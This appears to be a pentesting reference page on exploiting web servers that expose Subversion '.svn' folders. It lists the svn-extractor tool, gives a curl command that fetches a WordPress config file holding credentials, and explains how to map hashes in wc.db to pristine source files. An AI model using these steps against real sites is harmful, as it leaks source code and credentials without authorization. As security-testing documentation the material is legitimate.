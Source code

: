 # Subversion

> Subversion  (often abbreviated as SVN) is a centralized version control system (VCS) that has been widely used in the software development industry. Originally developed by CollabNet Inc. in 2000, Subversion was designed to be an improved version of CVS (Concurrent Versions System) and has since gained significant traction for its robustness and reliability.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
* [References](#references)

## Tools

* [anantshri/svn-extractor](https://github.com/anantshri/svn-extractor) - Simple script to extract all web resources by means of .SVN folder exposed over network.

    ```powershell
    python svn-extractor.py --url "url with .svn available"
    ```

## Methodology

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from `http://server/path_to_vulnerable_site/.svn/wc.db`

    ```powershell
    INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
    ```

2. Download interesting files
    * remove `$sha1$` prefix
    * add `.svn-base` postfix
    * use first byte from hash as a subdirectory of the `pristine/` directory (`94` in this case)
    * create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`

## References

* [SVN Extractor for Web Pentesters - Anant Shrivastava - March 26, 2013](http://blog.anantshri.info/svn-extractor-for-web-pentesters/)
